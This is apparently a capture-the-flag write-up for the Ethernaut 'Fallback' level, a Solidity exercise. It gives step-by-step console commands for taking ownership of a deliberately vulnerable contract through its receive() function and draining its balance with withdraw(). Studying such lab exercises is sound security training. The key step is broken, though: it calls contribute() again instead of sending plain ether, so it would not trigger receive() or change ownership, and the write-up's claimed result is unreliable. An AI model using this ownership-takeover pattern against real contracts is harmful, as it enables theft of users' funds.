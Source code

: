 # Level 1 - Fallback

The objectives of this level are as follows:

1. Claim ownership of the contract
2. Reduce its balance to 0

We are going to exploit the fallback function within this contract, namely:

```
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

According to Solidity documentation, "The fallback function is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no receive Ether function. The fallback function always receives data, but in order to also receive Ether it must be marked payable."

First, we are going to contribute to the contract by sending some value less than 0.001 ether:

```
await contract.contribute.sendTransaction({ from: player, value: toWei('0.0005')})
```

We can verify that we successfully contributed to the contract by calling the getContribution() function:

```
await contract.getContribution().then(v => v.toString())
```

Next, we are going to send some ether to the contract in order to execute the fallback function:

```
await contract.contribute.sendTransaction({value: "100"})
```

By sending ether to the contract, we have become the contract owner. We can verify this by ensuring that the following outputs our wallet address:

```
await contract.owner()
```

Finally, we can empty the contract and complete the level:

```
await contract.withdraw()
```
